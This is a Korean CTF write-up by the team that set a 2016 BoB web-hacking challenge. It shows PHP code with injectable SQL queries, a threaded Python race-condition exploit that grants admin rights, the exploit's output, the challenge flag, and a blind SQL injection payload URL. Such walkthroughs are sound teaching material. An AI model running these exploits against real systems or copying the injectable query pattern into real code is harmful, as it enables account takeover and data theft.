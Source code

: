 BoB Web Hacking CTF 강남백반 팀 Write-Up
============
2016.08.27 강남 미림타워 BoB 센터에서 작성<br>
2016.08.31 한양대학교 ERICA 캠퍼스에서 업로드
<br><br>
출제도 풀이도 모두 즐거웠던 BoB Web Hacking CTF가 끝이 났습니다. 출제를 할 당시에, 많은 분들이 해킹에 능통하시기 때문에 처음에는 조금 더 복잡한 형태의 문제를 내길 바랬습니다만, 만들면 만들수록 억지스러운 방법을 요구하는 것 같아서 최대한 자연스러운 형태로 접근하기 어려운 문제를 내어보고자 하는 취지에서 간단한 Race Condition 문제를 출제 했습니다. 실제로 대회에서도 기대했던 대로 3-4팀 정도가 풀어 주셨습니다.
<br>
# 1. 의도한 취약점 : Race Condition
원래의 의도는 게시판에서는 어떠한 취약점도 발견이 되지 않도록 해서, 게시판 취약점을 찾는 것을 포기하게 하고, 로그인 부분에서 두 번의 Request가 들어가는 것, 그리고 관리자 전용 로그인 페이지와 일반 유저의 로그인 페이지가 하나의 인증을 경유한다는 점을 들어 인증 정보를 따로 보내 준다는 것을 눈치 채고 Race Condtion을 이용한다는 시나리오입니다.<br><br>
Auth.php를 보면
<pre><code>
    $query = "INSERT INTO member (id,pass,name,mail,phonenumber) VALUES ('$nick','$word','$name','$mail','$number')";

	$results = mysqli_query($db,$query);
		
	$sql = "INSERT into access (id, Auth) values ((select id from member where id='$nick'), 'TRUE');";

  	mysqli_query($db, $sql);

	mysqli_close($db);
	
</code></pre>
위와 같이 두 번의 INSERT 문을 거칩니다. 그 말은 곧, 두 쿼리문 사이에 미세한 시간의 차이가 발생한다는 의미입니다.<br><br>
그리고 관리자 로그인 페이지와 일반 로그인 페이지가 모두 거치는 인증 페이지인 login_check.php를 보면,
<pre><code>         
        $uid = $arr['id'];
      		$sql = "SELECT Auth from access where id='$uid' and Auth='TRUE';";
		$result = mysqli_query($db,$sql);
		$arr = $result->fetch_assoc();
	
		if($arr['Auth']){
		$_SESSION['user_id'] = $uid;
		echo "<script>alert(\"로그인 성공~!! $uid 님 환영합니다!\");
		location.replace('list.php');</script>";
		}

		else{
		$_SESSION['user_id'] = $uid;
		$q = "update member set role='admin' where id='$uid'";
		$result = mysqli_query($db,$q);
		echo "<script>alert(\"관리자님 환영합니다!\");
		location.replace('list.php');</script>";
		}
		
</code></pre>
Auth 인자가 True일 경우에는, 일반 사용자로 로그인이 되고, False일 경우에는 관리자 권한 재부여와 함께 관리자 페이지로 이동을 합니다. 이 때, 회원가입에서 Auth 인자가 부여되기 전에 로그인을 하면, Auth 인자는 NULL값이므로, False로 취급되어 관리자 권한을 부여받을 수 있게 되는 취약점이 있는 것입니다. 
<br><br>
저는 다음과 같은 공격 코드를 작성하여 관리자 권한을 취득 했습니다.
<pre><code>
#!/usr/bin/env python3

import requests
import string
import re
import random
import threading

url_register = "http://192.168.1.103/auth.php"
url_login = "http://192.168.1.103/login_check.php"

def register(username, password):
	data = {'nick' : username, 'word' : password,'words' : password, 'name' : 'hacker', 'mail' : 'admin@hacker.com', 'number' : '01022223333'}
	a = requests.post(url_register, data=data).content.decode('UTF-8')
	if a.find("성공") != -1:
		print("등록 성공")
	else :
		print("등록 실패")

def login(username, password):
	data = {'id' : username, 'pw' : password}
	c = requests.post(url_login, data=data).content.decode('UTF-8')
	if c.find("관리자님") != -1:
		print("관리자 아이디 : "+username+" 관리자 비밀번호 : "+password)
	else:
		print("일반 계정이 생성됨")

while True:
	username = ''.join(random.choice(string.ascii_letters) for _ in range(10))
	password = 'hacker'

	t1 = threading.Thread(target=register, args=(username, password,))
	t2 = threading.Thread(target=login, args=(username, password,))
	t1.start()
	t2.start()
	t1.join()
	t2.join()
	
</code></pre>
위 코드의 실행 결과는 다음과 같습니다.
<pre><code>
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
관리자 아이디 : doUEALiMWf 관리자 비밀번호 : hacker
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공

</code></pre>

몇 번의 시도 끝에 관리자 계정이 생성이 되고, 해당 관리자 계정을 이용해 관리자 페이지로 접근을 하면, 회원 데이터베이스를 열람할 수 있으므로, 그 곳에 있는 플래그 값인 **MoM\_NoW\_1\_Kn0W\_Wh4T\_tIM1NG\_I5**를 확인 할 수 있습니다.

# 2. 의도하지 않은 취약점 : SQL Blind Injection

게시판을 완전히 취약점 없는 상태로 만들고자 했던 저희의 바램과는 달리, 게시판에는 취약점이 있었는데, 그것이 SQL Blind Injection입니다. <br>
<pre><code>http://192.168.1.103/download.php?No=IF((1=2),178,176)</pre></code>
위와 같이, download.php의 No 인자에 SQL Blind Injection이 가능해서 DB의 대부분의 정보를 열람할 수 있습니다.<br>
간단한 스크립트를 이용하면 플래그를 알아내는 것도 시간 문제였을 것입니다. <br>
저희의 풀이는 여기까지입니다. 저는 게시판 개발자를 죽이러 가야해서 여기서 그만 줄이겠습니다. 감사합니다.